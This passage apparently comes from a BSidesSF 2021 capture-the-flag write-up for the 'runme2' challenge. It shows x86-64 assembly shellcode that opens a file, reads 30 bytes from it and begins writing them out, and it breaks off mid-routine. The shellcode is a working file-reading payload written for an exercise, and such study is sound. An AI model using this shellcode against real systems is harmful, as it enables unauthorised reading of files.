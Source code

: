 Here is the code I ended up with (or you can grab it from [the solution folder](https://github.com/BSidesSF/ctf-2021-release/tree/main/runme2/solution)):

```
<pre id="vimCodeElement"><span class="Identifier">bits</span> <span class="Number">64</span>

<span class="Comment">;;; OPEN</span>

  <span class="Comment">; Syscall 2 = sys_open</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">mov</span> <span class="Identifier">al</span>, <span class="Number">2</span>

  <span class="Comment">; rdi = filename</span>
  <span class="Identifier">jmp</span> <span class="Identifier">short</span> <span class="Identifier">getfilename_bottom</span>
<span class="Identifier">getfilename_top</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Pop the top of the stack (which is the filename) into rdi</span>

  <span class="Comment">; rsi = flags</span>
  <span class="Identifier">xor</span> <span class="Identifier">rsi</span>, <span class="Identifier">rsi</span>

  <span class="Comment">; rdx = mode</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>

  <span class="Comment">; Perform sys_open() syscall, the file handle is returned in rax</span>
  <span class="Identifier">syscall</span>

<span class="Comment">;;; READ</span>

  <span class="Identifier">push</span> <span class="Identifier">rdi</span> <span class="Comment">; Temporarly store the filename pointer</span>
  <span class="Identifier">push</span> <span class="Identifier">rax</span> <span class="Comment">; Temporarily store the handle</span>

  <span class="Comment">; Syscall 0 = sys_read</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>

  <span class="Comment">; rdi = file handle</span>
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span>

  <span class="Comment">; rsi = buffer (same as filename)</span>
  <span class="Identifier">pop</span> <span class="Identifier">rsi</span>

  <span class="Comment">; rdx = count</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>
  <span class="Identifier">mov</span> <span class="Identifier">dl</span>, <span class="Number">30</span>

  <span class="Comment">; Perform sys_read() syscall, reading from the opened file</span>
  <span class="Identifier">syscall</span>

<span class="Comment">;;; WRITE</span>

  <span class="Comment">; Syscall 1 = sys_write</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">inc</span> <span class="Identifier">rax</span>
```